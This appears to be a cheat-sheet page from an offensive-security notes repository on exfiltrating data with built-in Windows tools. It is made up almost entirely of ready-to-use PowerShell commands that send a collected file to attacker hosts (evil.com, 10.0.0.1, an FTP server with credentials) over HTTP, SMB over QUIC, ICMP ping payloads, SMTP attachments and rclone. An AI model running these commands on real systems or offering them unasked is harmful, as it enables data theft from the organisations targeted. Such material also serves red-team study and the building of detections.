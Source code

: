 # Exfiltration via System Commands

Living Off The Land techniques are used for transfering collected data to an attacker's server over several protocols.

## Over HTTP/HTTPs

- Curl

    ```powershell
    curl -k -F "file=@./data.txt" https://evil.com/
    ```

- Invoke-WebRequest (iwr)

    ```powershell
    $content = Get-Content .\data.txt
    iwr -uri http://10.0.0.1 -Method POST -Body $content
    ```

## Over SMB

- Net

    ```powershell
    net use * "\\evil.com\shared_folder" / TRANSPORT:QUIC /SKIPCERTCHECK
    copy ".\data.txt" "Z:\data.txt"
    ```

- New-SmbMapping

    ```powershell
    New-SmbMapping -RemotePath "\\evil.com\shared_folder" -TransportType QUIC -SkipCertificateCheck
    copy ".\data.txt" "Z:\data.txt"
    ```

## Over ICMP

- Ping

    ```powershell
    $ping = New-Object System.Net.Networkinformation.ping
    foreach($Data in Get-Content -Path C:\data.txt -Encoding Byte -ReadCount 1024) {$ping.Send("evil.com", 1500, $Data)}
    ```

## Over SMTP

This command sends a mail attached a collected data file to an attacker's server.

```powershell
Send-MailMessage -From sender@evil.com -To recipient@evil.com -Subject "Hello" -Attachments C:\data.txt -SmtpServer 10.0.0.1
```

## Over FTP

This command sends a collected data (`data.zip`) to the FTP server (`ftp.dlptest.com`). `rclone.exe` is not a built-in binary, so it must exist on a target system.

```powershell
rclone config create ftpserver "ftp" "host" "ftp.dlptest.com" "port" "21" "user" "dlpuser" "pass" "password123"
rclone copy --max-age 2y C:\data.zip ftpserver --bwlimit 2M -q --ignore-existing --auto-confirm --multi-thread-streams 12 --transfers 12 -P --ftp-no-check-certificate
```